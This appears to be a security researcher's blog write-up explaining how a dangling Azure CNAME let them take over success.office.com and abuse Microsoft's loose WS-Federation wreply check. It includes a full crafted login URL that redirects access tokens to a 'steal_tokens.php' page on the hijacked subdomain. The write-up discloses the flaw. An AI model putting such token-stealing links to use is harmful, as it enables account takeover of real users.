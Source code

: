 ```yaml
---
layout: post
title: Leaking access tokens from Microsoft apps chaining two vulnerabilities
---
```


---




First Issue:

During the initial reconnaissance I retrieved the list all possible subdomains of office.com pointing to many Azure instances. One of them was success.office.com which was not getting resolved, but had a CNAME pointing to an Azure web app instance `successcenter-msprod`. 
Chances are that you can takeover an Azure instance if the domain is not getting resolved. So I tried to create a web app with the name `successcenter-msprod` in my Azure portal
and it was accepted as a valid name. In other words, the previous instance with that name had been removed and is now free.
Which basically means, whatever we host on `successcenter-msprod`; `success.office.com` would point to it as the CNAME record specifies. 

Second Issue:

Microsoft uses WS Federation for it's implementation of a centralized login system for most of the applications including Outlook, Sway, Microsoft Store etc. WS Fed is similar to Oauth. 
`wreply` in WS Fed is the counterpart of `redirect_url` in Oauth. If you read Nir Goldshlager's Facebook Oauth bug series, you will understand
the dangers of not using an exact URL match (or not properly validating) for wreply or redirect_url wherever possible. Here in this case, Microsoft 
was allowing any subdomains of office.com (*.office.com) to be a valid wreply URI. 


Since one of their subdomain was in my control, I could use this domain as a valid `wreply` url and was able to leak the access tokens:

`https://login.live.com/login.srf?wa=wsignin1.0&rpsnv=13&ct=1529775349&rver=6.7.6643.0&wp=MBI_SSL&wreply=https://success.office.com/steal_tokens.php&lc=1033&id=292666&lw=1&fl=easi2&pcexp=true&uictx=me`

Basically, if any user who clicked on a crafted link with this changes, the tokens would get leaked and this token can be exchanged
for a session token and subsequently an account takeover would result.


<img src="http://139.59.39.57/images/outlook.jpg" />


PS : There are different news being spread out with different hypes which may not reflect pure technical terms or properly specify
the steps required to exploit this; those may not reflect my opinions.
